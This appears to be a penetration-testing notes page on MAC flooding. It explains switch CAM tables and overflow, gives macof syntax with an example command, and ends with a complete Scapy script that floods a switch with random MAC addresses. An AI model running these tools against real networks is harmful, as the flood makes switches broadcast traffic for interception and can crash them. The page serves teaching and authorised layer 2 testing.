 # MAC Flood

## CAM Table&#x20;

![](<../../.gitbook/assets/image (298) (1) (1).png>)

• CAM Table stands for Content Addressable Memory

• The CAM Table stores information such as MAC addresses available on physical ports with their associated VLAN parameters

• CAM Tables have a fixed size

## Normal CAM Behavior

![](<../../.gitbook/assets/image (277) (1) (1).png>)

![](<../../.gitbook/assets/image (300) (1) (1).png>)

![](<../../.gitbook/assets/image (276) (1) (1) (1) (1) (1) (1).png>)

## CAM Overflow

• Theoretical attack until May 1999&#x20;

• macof tool since May 1999 (about 100 lines of perl)

• Based on CAM Table’s limited size

![](<../../.gitbook/assets/image (293) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (281) (1) (1) (1).png>)

#### Dsniff (macof) can generate 480,000 MAC entries on a switch per minute 8000/s\*60.

Assuming a perfect hash function the CAM table will total out at 128,000 (16,000 x 8) 131,052 to be exact Since hash isn’t perfect it actually takes 70 seconds to fill the CAM table.

#### Once table is full, traffic without a CAM entry floods on the VLAN, but NOT existing traffic with an existing CAM entry

![](<../../.gitbook/assets/image (297) (1) (1).png>)

Syntax:

```
macof [-i interface] [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-n times]

-i   interface Specify the interface to send on.
-s   src Specify source IP address.
-d   dst Specify destination IP address.
-e   Specify target hardware address.
-x   sport Specify TCP source port.
-y   dport Specify TCP destination port.
-n   times Specify the number of packets to send
```

#### Macof can flood a switch with random MAC addresses. This is called MAC flooding. This fills in the switch’s CAM table, thus new MAC addresses can not be saved, and the switch starts to send all packets to all ports, so it starts to act as a hub, and thus we can monitor all traffic passing through it.

## Targeted Flooding

Macof can flood a switch with random MAC addresses destinated to 192.168.1.1.

```
macof -i eth1 -n 10
```

While conducting a pentest, this tool comes in handy while sniffing. Some switches don’t allow to spoof arp packets. This tool can be used in such situations to check if the switch is overloaded. Some switches behave like hubs, transmitting all source packets to all destinations. Then sniffing would be very easy. Some switches tend to crash & reboot also. Such kind of layer 2 stress testing can be done with this handy tool

## MAC flooding with scapy

```python
#! /usr/bin/python

nbpkts = 8192
iface = "eth0"

import sys
from scapy.all import sendpfast, Ether, IP, RandIP, RandMAC, TCP

print("Initializing...")

# We first build all packets...
pkts = []
for i in xrange(0, nbpkts):
  macaddr = str(RandMAC())
  # Quick-and-dirty way to ensure that the I/G remains unset
  macaddr = macaddr[:1] + "0" + macaddr[2:]
  # This packet structure mimics a TCP SYN sent to a HTTP server.
  # A random dst mac should also work, setting one fixed can be useful
  # to easily filter-out flood-related packets when capturing traffic.
  # You can use IPs valid for your range, but be cautious that if any
  # host is made to send some RST for instance its MAC address will be
  # registered by the switches.
  pkts.append(Ether(src=macaddr, dst="ff:ff:ff:ff:ff:ff")/
              IP(src=str(RandIP()), dst=str(RandIP()))/
              TCP(dport=80, flags="S", options=[('Timestamp', (0, 0))]))

print("Launching attack, press Ctrl+C to stop...")

# ...and then we send them in loop.
while True:
  # Adapt pps (Packets Per Second) to your needs. Running a complex
  # GNS3 topology on a low-end machine will take all the CPU causing
  # packet loss, pps will then need to be high to replay lost packets.
  # Given enough CPU, packet loss can remain low and pps can be lowered
  # too.
  sendpfast(pkts, iface=iface, file_cache=True, pps=5000, loop=999)

```

